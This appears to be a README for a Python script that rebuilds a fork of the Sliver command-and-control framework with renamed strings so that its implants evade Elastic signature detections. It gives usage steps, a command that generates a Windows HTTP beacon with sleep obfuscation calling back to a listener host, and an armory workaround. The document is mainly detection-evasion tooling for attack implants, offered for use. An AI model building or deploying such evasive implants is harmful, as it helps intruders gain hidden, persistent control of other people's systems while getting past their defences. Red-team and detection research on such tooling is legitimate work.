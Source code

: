 # SliverCloakPy
Bypass common signature detections such as the ones from elastic.

Python script that does the job of slivercloak against armysick's sliver fork

slivercloak -> https://github.com/thelikes/slivercloak

armysick's sliver -> https://github.com/armysick/sliver

## Usage

Right now the script covers the Elastic Module, but you can replace whatever you want to be honest.

I did this small script because I have a hard time understanding all the work behind go, and I wanted to use armysick's fork, since it implements the ekko sleep module.

Just download the script and run `python3 builder.py`

Make sure you have some common tools suchs as
- zip
- go
- protobuf-compiler

This will automatically clone armysick's sliver, and get the necessary dependecies, afterwards, it will replace strings in the files and compile the proyect

Beacons are renamed to Krakens, and sliver-server/client is renamed to golder-server/client

## example of generating a beacon with ekko sleep obfuscation -B
```
sudo ./golder-server

generate kraken --http 10.10.10.134 -s /mnt/c/Payloads --arch amd64 --os windows -B -f exe --seconds 5

http
```
[!BypassElastic](ElasticRuleBypass.png)
## armory problems fix
Since this is replacing strings, including the ones of armory, you wont be able to install armory packages straight away, here is a quick fix

```
armory add -u https://api.github.com/repos/sliverarmory/armory/releases -k "RWSBpxpRWDrD7Fe+VvRE3c2VEDC2NK80rlNCj+BX0gz44Xw07r6KQD9L" armory

armory install all
```
